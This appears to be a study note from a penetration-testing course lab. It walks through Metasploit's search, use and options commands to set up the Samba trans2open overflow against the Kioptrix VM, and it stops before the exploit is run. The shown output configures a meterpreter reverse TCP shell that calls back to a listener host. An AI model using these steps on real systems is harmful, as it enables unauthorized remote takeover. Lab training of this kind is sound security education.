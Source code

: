 
# Gaining Root w/ Metasploit
Before we pop a shell on Kioptrix, let's choose an exploit we want to use. Going back to what we found *via [searchsploit](/cybersecurity/tools/exploitation/searchsploit.md)* we can even find one which has a *known [Metasploit](cybersecurity/tools/exploitation/metasploit.md) module*:
![](PNPT/PNPT-pics/gaining-root-1.png)
Since it shows up so often in the output, let's try [trans2open](/cybersecurity/vulnerabilities/trans2.md) 
## Running Metasploit
### `search`
Once we've executed `msfconsole` and we're in the Metasploit console, we can search for trans2open w/ the `search` command:
```bash
msf6 > search trans2open

Matching Modules
================
#  Name                              Disclosure Date  Rank   Check  Description
-  ----                              ---------------  ----   -----  -----------
0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (*BSD x86)
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open 
	Overflow (Linux x86)
2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open 
	Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```
### `use`
From this list we can use the `use` command to choose a specific module and enter its context (make sure to choose one which matches the target):
```bash
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```
### `options`
Now that our context is set, we can use `options` to see what configurable variables there are for this module:
```bash
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see <link>
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be 
									   specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
```
